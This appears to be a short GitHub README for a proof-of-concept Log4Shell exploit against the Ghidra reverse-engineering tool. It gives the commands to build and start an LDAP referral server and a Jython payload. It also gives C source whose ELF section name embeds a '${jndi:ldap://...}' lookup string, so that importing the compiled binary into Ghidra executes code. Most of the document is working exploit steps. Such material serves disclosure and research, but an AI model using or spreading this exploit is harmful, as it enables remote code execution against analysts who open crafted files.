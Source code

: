An exploit for Log4Shell for Ghidra 10.0.2 on macOS. (Should also work on other OSes)

```
$ java -version
openjdk version "11.0.4" 2019-07-16 LTS
OpenJDK Runtime Environment Corretto-11.0.4.11.1 (build 11.0.4+11-LTS)
OpenJDK 64-Bit Server VM Corretto-11.0.4.11.1 (build 11.0.4+11-LTS, mixed mode)
```

You will need https://github.com/pingidentity/ldapsdk/releases/tag/6.0.3

Compile and start the LDAP server:

```
java -jar /Users/zhuowei/Downloads/ghidra_10.0.2_PUBLIC/Ghidra/Features/Python/lib/jython-standalone-2.7.2.jar generate_jython_payload.py
javac -cp .:/Users/zhuowei/Downloads/unboundid-ldapsdk-6.0.3/unboundid-ldapsdk.jar LDAPRefServer.java
java -cp .:/Users/zhuowei/Downloads/unboundid-ldapsdk-6.0.3/unboundid-ldapsdk.jar LDAPRefServer 1234
```

Compile the malicious executable into ELF format:

```
__attribute__((__section__(".note.${jndi:ldap://127.0.0.1:1234/abc}")))
int a = 1;
int main(){}
```

```
gcc poc.c
```

Import into Ghidra. A calculator should pop up.
